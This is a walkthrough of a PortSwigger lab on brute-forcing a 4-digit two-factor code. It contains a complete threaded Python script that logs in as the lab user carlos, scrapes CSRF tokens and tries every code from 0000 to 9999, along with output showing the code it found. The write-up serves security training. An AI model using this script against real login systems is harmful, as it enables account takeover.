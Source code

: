 # 2FA bypass using a brute-force attack

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack), you'll learn: 2FA bypass using a brute-force attack! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★☆☆☆☆☆

## Background

This lab's two-factor authentication is vulnerable to brute-forcing. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, brute-force the 2FA code and access Carlos's account page.

Victim's credentials: `carlos:montoya`

## Exploitation

**Login page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-14/images/Pasted%20image%2020221222070955.png)

**Login as user `carlos`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-14/images/Pasted%20image%2020221222071008.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-14/images/Pasted%20image%2020221222071017.png)

**Let's try to type an incorrect security code:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-14/images/Pasted%20image%2020221222071047.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-14/images/Pasted%20image%2020221222071105.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-14/images/Pasted%20image%2020221222071051.png)

When we entered an incorrect security code, it'll display `Incorrect security code`.

**However, when I send the request again:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-14/images/Pasted%20image%2020221222071514.png)

A new session cookie will be set, and logs out.

**What if I send the request after that?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-14/images/Pasted%20image%2020221222071607.png)

`session does not contain a CSRF token`.

**Armed with above information, we can brute force the 2FA via a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep
from bs4 import BeautifulSoup

def sendRequest(url, number):
    # Display current number and use \r to clear previous line
    print(f'[*] Trying number: {number}', end='\r')

    session = requests.Session()

    # Get login CSRF token
    login1Request = session.get(url + '/login')
    soup = BeautifulSoup(login1Request.text, 'html.parser')
    login1CsrfToken = soup.find('input', {'name': 'csrf'}).get('value')

    login1Data = {
        'csrf': login1CsrfToken,
        'username': 'carlos',
        'password': 'montoya'
    }
    
    # Login as user carlos
    login1RequestResponse = session.post(url + '/login', data=login1Data)

    # Get 2FA page CSRF token
    login2Request = session.get(url + '/login2')
    soup = BeautifulSoup(login2Request.text, 'html.parser')
    login2CsrfToken = soup.find('input', {'name': 'csrf'}).get('value')

    login2Data = {
        'csrf': login2CsrfToken,
        'mfa-code': number
    }

    # Enter 2FA code
    result = session.post(url + '/login2', data=login2Data)

    if 'Incorrect security code' not in result.text:
        print(f'[+] Found security code: {number}')

def main():
    url = 'https://0aa3005a0329b950c25d170a00dd0025.web-security-academy.net'

    # Generate number 0000 to 9999 into a list
    listNumbers = [f'{i:04d}' for i in range(10000)]

    for number in listNumbers:
        thread = Thread(target=sendRequest, args=(url, number))
        thread.start()

        # You can adjust how fast of each connection. 0.2s is recommended.
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 brute_2facode.py
[+] Found security code: 0867
```

- Found `carlos` security code: `0867`

> Note: Since each entire session's GET and POST requests take around 10 - 15 seconds to finish, please don't cancel the script. I did it, and I wasted 3 hours to "fix" the script lol.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-14/images/Pasted%20image%2020221222094105.png)

# What we've learned:

1. 2FA bypass using a brute-force attack